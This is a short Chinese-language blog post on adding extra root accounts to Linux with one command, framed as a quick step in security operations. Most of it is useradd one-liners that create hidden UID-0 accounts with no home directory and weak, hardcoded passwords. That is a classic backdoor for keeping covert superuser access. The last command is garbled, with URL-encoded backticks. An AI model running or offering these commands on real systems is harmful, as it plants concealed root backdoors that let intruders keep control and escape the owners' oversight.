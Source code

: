 ```yaml
---
layout:     post
title:      linux一句话加root用户
subtitle:   网络安全实施过程中快速添加root用户
date:       2023-12-18
author:     Robin
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - Note
	- Linux
	- Information security
---
```


linux一句话加root用户：

快速添加root用户
=注意=：添加的用户与root相同uid，对本用户的kick操作等同于kick掉root，可能会造成系统故障
``` shell
useradd -M -N -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 ducmi` ducmi
useradd -M -N -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 t` t
或者（因不同版本命令有差别）
useradd -M  -u 0 -g 0 -o -s /bin/bash -p `openssl passwd -1 -salt 123 test` test
或者
useradd -M -u 0 -g 0 -o -s /bin/bash -p %60openssl passwd -1 -salt 123 ducmi1%60 ducmi1```


